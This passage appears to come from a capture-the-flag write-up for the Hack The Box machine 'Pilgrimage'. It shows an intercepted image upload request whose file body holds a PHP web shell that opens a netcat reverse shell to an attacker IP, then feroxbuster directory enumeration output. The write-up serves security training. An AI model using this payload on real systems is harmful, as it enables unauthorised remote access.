 As well as `payload.png`.

At this point I intercepted the traffic with Burp and send the following POST request:
```
POST / HTTP/1.1
Host: pilgrimage.htb
Content-Length: 283
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://pilgrimage.htb
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryYHuRjwoA5TAB88vU
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://pilgrimage.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=4qf4up4cu8813vbheqkd7er5cj
Connection: close

------WebKitFormBoundaryYHuRjwoA5TAB88vU
Content-Disposition: form-data; name="toConvert"; filename="payload.png"
Content-Type: image/png

<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.15.14 8081 >/tmp/f'); ?>

------WebKitFormBoundaryYHuRjwoA5TAB88vU--
```

But still got the error message. Also, the response doesn't show any further hint for the error message.

So maybe we have to find more or other information.

#### Directory Enumeration
If we enumerate the web directories we find a `.git` folder:
```
┌──(kali㉿kali)-[~]
└─$ feroxbuster --url http://pilgrimage.htb/ --depth 2 --wordlist /usr/share/seclists/Discovery/Web-Content/common.txt

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://pilgrimage.htb/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/common.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 2
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        7l        9w      153c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        7l       11w      153c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
```